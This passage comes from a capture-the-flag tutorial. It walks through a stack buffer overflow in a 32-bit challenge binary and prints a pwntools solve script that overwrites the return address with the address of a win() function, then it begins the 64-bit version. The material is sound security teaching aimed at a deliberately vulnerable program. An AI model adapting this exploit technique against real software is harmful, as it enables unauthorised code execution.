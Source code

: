 By using the `p32()` function from pwntools, we can interpret the memory address into bytes without needing to use the built-in `struct` module.

Now that we have our payload ready, we need to send it.

{{< highlight py solve.py >}}
from pwn import * # Import everything from the package

io = process('./baby-bof-x86') # Create a process of the program

offset = 42 # Offset discovered via gdb
payload = b"A"*offset # Our A's encoded into bytes.
payload += p32(0x80485c6) # b'\xc6\x85\x04\x08'

io.sendline(payload) # Sends our payload to the program, similar to running the program manually and typing "screaming goes here"

io.interactive() # Allows us to see the program run
{{< /highlight >}}

Now we can run our script and hope that it works.

> If you end up seeing "Missing flag file! Please contact support if you see this error on the remote target!", it just means you're missing the `flag` file which isn't a big deal since we're testing this on our machine.

![Output of running the script](baby-bof-86-running-the-script.png)
*Look at that! We've succesfully pwn'ed the challenge!*

### 2) :baby: BOF 64
Smashing the stack like its 19x64  
- - -
#### Running the program
Once again, let's see how this program behaves.

![Output from running the program](baby-bof-64-running-the-program.png)

Just like the previous challenge, we are given the address of the `win()` function.
